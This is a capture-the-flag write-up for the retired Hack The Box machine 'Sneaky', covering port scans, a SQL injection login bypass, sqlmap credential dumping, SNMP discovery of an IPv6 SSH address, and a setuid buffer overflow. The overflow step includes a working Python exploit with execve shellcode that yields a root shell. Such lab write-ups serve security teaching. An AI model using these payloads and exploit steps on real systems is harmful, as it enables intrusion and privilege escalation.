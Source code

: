 # Sneaky

This is the write-up for the box Sneaky that got retired at the 11th November 2017.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.20    sneaky.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sneaky.nmap 10.10.10.20
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
```

UDP port scan:
```markdown
nmap -sU -o nmap/sneaky_udp.nmap 10.10.10.20
```

```markdown
PORT    STATE SERVICE
161/udp open  snmp
```

## Checking HTTP (Port 80)

On the web page it says that _"This Page is Under Development"_ and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.20 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds a _/dev_ folder and when browsing there, it shows a login page with the title _"Member's Area Only - Login Now!"_
When trying out default usernames and passwords, it outputs _"Not Found"_ and by trying out special characters, it outputs _"Internal Server Error"_.
So there is some kind of **SQL injection** flaw to abuse.
```markdown
name=admin&pass=' OR '1'='1
```

Sending this to the server logs us in and greets us with two names and the content of a RSA key file:
- name: admin
- name: thrasivoulos

As we can't use that RSA key yet, lets test the SQL Injection with **Sqlmap**:
```markdown
sqlmap -r sneaky.req -p pass --dbms mysql --level 4 --risk 3 --dump
```

It outputs the passwords of the users that are both the same:
> sup3rstr0ngp4ssf0r4d

There is no service where this can be used for now, so we need to find another way in.

## Checking SNMP (Port 161)

As SNMP is listening on UDP, we can check the _public_ community string:
```markdown
snmpwalk -v2c -c public 10.10.10.20
```

Looking through the results, it outputs that IPv6 is activated which could have SSH open.
To filter for that community string with the IP addresses:
```markdown
snmpwalk -v2c -c public 10.10.10.20 1.3.6.1.2.1.4.34.1.3
```

```markdown
iso.3.6.1.2.1.4.34.1.3.1.4.10.10.10.20 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.1.4.10.10.10.255 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.1.4.127.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.34.1.3.2.16.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.34.1.3.2.16.222.173.190.239.0.0.0.0.2.80.86.255.254.185.197.169 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.2.16.254.128.0.0.0.0.0.0.2.80.86.255.254.185.197.169 = INTEGER: 2
```

The IPv6 address is written in decimal and needs to be converted in hexadecimal first.
To make this readable, installing _snmp-mibs-downloader_ and enabling it, will translate all the numbers into human readable strings.
```markdown
de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:b9:b5:c5
fe:80:00:00:00:00:00:00:02:50:56:ff:fe:b9:b5:c5
```

This is how it looks as an IPv6 address:
```markdown
# Unique Local Address
dead:beef:0000:0000:0250:56ff:feb9:b5c5

# Link-Local Address
fe80:0000:0000:0000:0250:56ff:feb9:b5c5
```

With the **Unique Local Address** it is possible to SSH into the box with the SSH key that was found before:
```markdown
chmod 600 thrasivoulos.key

ssh -i thrasivoulos.key thrasivoulos@dead:beef:0000:0000:0250:56ff:feb9:b5c5
```

## Privilege Escalation

After enumerating the box with the user _thrasivoulos_, there is a binary with the **SetUID bit** set called _/usr/local/bin/chal_:
```markdown
find / -perm -4000 2>/dev/null
```

When running the binary, it exits immediately with a _Segmentation fault_, so lets analyze it for **Buffer Overflow vulnerabilities** with **Gdb**:
```markdown
gdb chal
```

Creating an unique pattern as an argument:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
```

Running binary in **Gdb** with the pattern as an argument:
```markdown
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

It exits at the address _0x316d4130_ that is somewhere in this string. Searching for offset address in the pattern:
```markdown
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x316d4130
```
```markdown
Exact match at offset 362
```

Searching for address of _EIP_:
```markdown
(gdb) r $(python -c 'print "A"*400')

(gdb) x/100x $esp+144
```
```markdown
0xbffff750
```

With all this information, it is possible to write exploit code:
```python
buf_size = 362

# Shellcode from https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += "\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += "\xcd\x80\x31\xc0\x40\xcd\x80"

nop_sled = "\x90"*(buf_size-len(shellcode))
eip = "\x50\xf7\xff\xbf" # 0xbffff750

payload = nop_sled + shellcode + eip

print(payload)
```

Running the binary with the exploit code as an argument:
```markdown
chal $(python exploit.py)
```

It executes the shellcode and starts a shell as root!

